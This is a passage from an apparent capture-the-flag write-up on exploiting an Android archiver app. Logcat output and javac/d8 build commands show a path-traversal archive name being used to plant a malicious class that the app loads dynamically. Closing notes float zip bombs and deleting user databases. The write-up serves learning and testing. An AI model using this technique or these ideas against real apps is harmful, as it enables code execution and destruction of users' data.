01-03 22:43:07.245  4590  4608 I WM-WorkerWrapper: Worker result SUCCESS for Work [ id=1bb09ba1-bacb-4bbd-a82c-286968c85497, tags={ com.badguy.mmarchiver.worker.FileDownloadWorker } ]
```

More testing to find that creating a file in a folder passes

More testing to realize that `...zip` can exploit path traversal before canonical check
```
01-07 20:01:49.247  4034 30626 D FileDownloadWorker: starting
01-07 20:01:49.269  4034 30787 D FileDownloadWorker: downloading file id=rymakeuj338abqnfk43hgofseo name=...zip
01-07 20:01:49.290  4034 30626 D FileDownloadWorker: file written to /data/user/0/com.badguy.mmarchiver/cache/download/...zip
01-07 20:01:49.291  4034 30626 D d       : [DefaultDispatcher-worker-3] getting format for zip
01-07 20:01:49.291  4034 30626 D b       : [DefaultDispatcher-worker-3] found format for zip
01-07 20:01:49.291  4034 30626 D a       : [DefaultDispatcher-worker-3] processing zip archive /data/user/0/com.badguy.mmarchiver/cache/download/...zip
01-07 20:01:49.291  4034 30626 D a       : [DefaultDispatcher-worker-3] processing zip entry formats/net.axolotl.zippier.ZipFormat_7z.jar
01-07 20:01:49.291  4034 30626 D d       : [DefaultDispatcher-worker-3] getting format for jar
01-07 20:01:49.291  4034 30626 D a       : [DefaultDispatcher-worker-3] processing zip entry trigger.7z
01-07 20:01:49.291  4034 30626 D d       : [DefaultDispatcher-worker-3] getting format for 7z
01-07 20:01:49.291  4034 30626 D d       : [DefaultDispatcher-worker-3] attempting format load from /data/user/0/com.badguy.mmarchiver/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar
01-07 20:01:49.292  4034 30626 W dguy.mmarchiver: Expected valid zip or dex file
01-07 20:01:49.293  4034 30626 E d       : [DefaultDispatcher-worker-3] failed to load format from /data/user/0/com.badguy.mmarchiver/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar: java.lang.ClassNotFoundException: Didn't find class "net.axolotl.zippier.ZipFormat_7z" on path: DexPathList[[zip file "/data/user/0/com.badguy.mmarchiver/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar"],nativeLibraryDirectories=[/system/lib64, /system_ext/lib64]]
01-07 20:01:49.293  4034 30626 D b       : [DefaultDispatcher-worker-3] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/...zip-1767834109291.tar.xz
01-07 20:01:49.293  4034 30626 D b       : [DefaultDispatcher-worker-3] adding entry b[zippier/] to archive file
01-07 20:01:49.319  4034 30626 D b       : [DefaultDispatcher-worker-3] adding entry b[net.axolotl.zippier.ZipFormat_7z] to archive file
01-07 20:01:49.320  4034 30626 D b       : [DefaultDispatcher-worker-3] adding entry b[trigger] to archive file
01-07 20:01:49.325  4034 30626 D b       : [DefaultDispatcher-worker-3] deleting extraction directory /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..
01-07 20:01:49.325  4034 30626 E FileDownloadWorker: failed to create archive file: java.io.FileNotFoundException: Cannot delete file: /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..
01-07 20:01:49.333  4034 30626 I FileDownloadWorker: file download failed, requeueing (error=FILE_ARCHIVE_FAILED)
```

Know from staring at the code that `zippier.json` is a config for dynamic class loading for given list of compression formats downloaded from badguy server to `formats/`

Watch logs to see code in action on `test.7z` and see that the app tries to download the format

```
01-07 16:11:42.808  4034 29026 D FileDownloadWorker: starting
01-07 16:11:42.812  4034 29026 D FileDownloadWorker: downloading file id=613gguegsff87f6szthads714o name=test30.7z
01-07 16:11:42.824  4034 29430 D FileDownloadWorker: file written to /data/user/0/com.badguy.mmarchiver/cache/download/test30.7z
01-07 16:11:42.825  4034 29430 D d       : [DefaultDispatcher-worker-5] getting format for 7z
01-07 16:11:42.825  4034 29430 D d       : [DefaultDispatcher-worker-5] attempting download for format 7z
01-07 16:11:42.829   476 29433 I resolv  : GetAddrInfoHandler::run: {114 114 114 983154 10217 0}
01-07 16:11:42.830   476 29434 I resolv  : res_nmkquery: (QUERY, IN, AAAA)
01-07 16:11:42.830   476 29435 I resolv  : res_nmkquery: (QUERY, IN, A)
01-07 16:11:44.841   476 29434 E resolv  : send_mdns: timeout
01-07 16:11:44.841   476 29435 E resolv  : send_mdns: timeout
01-07 16:11:46.846   476 29434 E resolv  : send_mdns: timeout
01-07 16:11:46.846   476 29435 E resolv  : send_mdns: timeout
01-07 16:11:46.866   476 29434 I resolv  : res_nsend: used send_dg 33 terrno: 0
01-07 16:11:46.866   476 29434 I resolv  : doQuery: rcode=3, ancount=0, return value=33
01-07 16:11:46.867   476 29435 I resolv  : res_nsend: used send_dg 33 terrno: 0
01-07 16:11:46.867   476 29435 I resolv  : doQuery: rcode=3, ancount=0, return value=33
01-07 16:11:46.868  4034 29430 E d       : [DefaultDispatcher-worker-5] exception during format download: java.net.UnknownHostException: Unable to resolve host "dl.badguy.local": No address associated with hostname
01-07 16:11:46.868  4034 29430 D b       : [DefaultDispatcher-worker-5] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/test30.7z-1767820302825.tar.xz
01-07 16:11:46.869  4034 29430 D b       : [DefaultDispatcher-worker-5] adding entry b[test30] to archive file
```

Inspect code to find dynamic class name should be `net.axolotl.zippier.ZipFormat_7z.jar`

Think about replacing `zippier.json`: no, because it is a static app asset

Think about standing up a server to connect to badguy address: no, because how will we poison his DNS

Decide to try to create a malicious class with the same name

Package the file in the zip folder in `formats/`

See in the logs that the app does attempt to dynamically load the uploaded file

Copy Java code to recreate the class

Java compile command: `javac -cp "C:\Users\NAWW\AppData\Local\Android\Sdk\platforms\android-36\android.jar" -d java\classes java\ZipFormat.java java\ZipFile.java java\ZipFormat_7z.java`

D8 build command: `C:\Users\NAWW\AppData\Local\Android\Sdk\build-tools\36.0.0\d8.bat --lib C:\Users\NAWW\AppData\Local\Android\Sdk\platforms\android-36\android.jar --classpath java\classes --output net.axolotl.zippier.ZipFormat_7z.jar java\classes\net\axolotl\zippier\ZipFormat_7z.class`

Zip it up, serve to Mattermost, pass the class loader check, and that's a wrap!

Iterate until logs indicate a successful load

Submit and find that this satisfies the task!

### Notes

Tried a zip bomb, small at first to test the servers and then large to try to takeout the device. This was not the answer.

Open-ended prompt led to consideration of what constituted "exploits the device". We could delete the Mattermost database in task 6 as that was not a mod or admin restricted function. Then, use our malicious file to delete the app database and get rid of all history, assuming no other backups. Or, could change everyone's backup settings so they would in fact, miss message updates (see task 6 forum posts). Could potentially stay embedded and watch for malicious activity to see if admin is part of a larger network of players.


## Result

<div align="center">




</div>